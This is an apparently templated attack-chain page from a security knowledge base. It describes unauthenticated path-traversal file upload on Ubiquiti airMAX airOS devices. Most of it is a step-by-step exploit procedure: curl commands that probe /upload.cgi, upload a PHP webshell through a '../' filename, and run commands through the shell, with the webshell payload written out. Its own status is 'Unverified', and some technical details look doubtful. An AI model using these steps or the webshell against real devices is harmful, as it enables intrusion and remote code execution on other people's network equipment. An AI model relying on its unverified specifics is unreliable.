

# Arbitrary File Upload via Path Traversal in airOS airMAX Devices

Multi-stage attack chain demonstrating exploitation of path traversal in the airOS web server to upload arbitrary files, bypass authentication, gain unauthorized access, and execute code on Ubiquiti airMAX devices.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-upload-traversal]]

### Target Environment

- Ubiquiti airMAX devices running airOS
- Web interface accessible (default HTTP port 80 or 443)
- No authentication required for the vulnerable upload endpoint

### Initial Access Requirements

- Network access to the device's IP address
- No prior credentials needed due to auth bypass

## Detailed Attack Procedures

### Step 1: Locate and Access Upload Endpoint

procedure: [[procedures/Exploit-Path-Traversal-File-Upload-in-airOS]]

**Objective**: Identify the vulnerable HTTP upload endpoint in the airOS web server to prepare for exploitation.

**Instructions**: Use a browser or [[commands/curl-upload-traversal]] to probe the airOS web interface for the upload functionality, typically found at paths like /upload.cgi or firmware upload sections. Confirm the endpoint accepts file uploads without authentication.

```bash
curl -X GET http://<target-ip>/upload.cgi
```

**Expected Output**: HTTP response indicating an upload form or endpoint availability, such as a 200 OK with upload instructions.

**Success Indicators**:
- Endpoint responds without requiring login
- Upload form or API is accessible

### Step 2: Craft and Send Malicious File Upload

procedure: [[procedures/Exploit-Path-Traversal-File-Upload-in-airOS]]

**Objective**: Exploit path traversal to upload a malicious file to a sensitive location, bypassing directory restrictions.

**Instructions**: Prepare a malicious file (e.g., a PHP webshell) and use [[commands/curl-upload-traversal]] to send it with path traversal sequences (e.g., ../) to write outside the intended directory, such as to /var/www/ or /tmp/ for execution.

```bash
curl -X POST -F "file=@shell.php;filename=../../../var/www/shell.php" http://<target-ip>/upload.cgi
```

Replace shell.php with content like `<?php system($_GET['cmd']); ?>`. Adjust traversal depth based on the server's directory structure.

**Expected Output**: HTTP 200 OK or success message confirming upload, without authentication prompts.

**Success Indicators**:
- File uploaded successfully to target path
- No error on path validation

### Step 3: Execute Uploaded File for RCE

procedure: [[procedures/Exploit-Path-Traversal-File-Upload-in-airOS]]

**Objective**: Trigger the uploaded malicious file to achieve remote code execution and unauthorized access.

**Instructions**: Access the uploaded file's location via HTTP and execute commands through it, e.g., via a GET parameter if it's a webshell.

```bash
curl "http://<target-ip>/shell.php?cmd=id"
```

**Expected Output**: Output of the executed command, such as user ID information from the device.

**Success Indicators**:
- Command output returned (e.g., uid=0(root))
- Persistent access confirmed

## Attack Chain Summary

### Key Achievements

1. Bypassed authentication via unauthenticated upload endpoint
2. Achieved arbitrary file write using path traversal
3. Gained remote code execution on the embedded device

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Remote File Copy]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
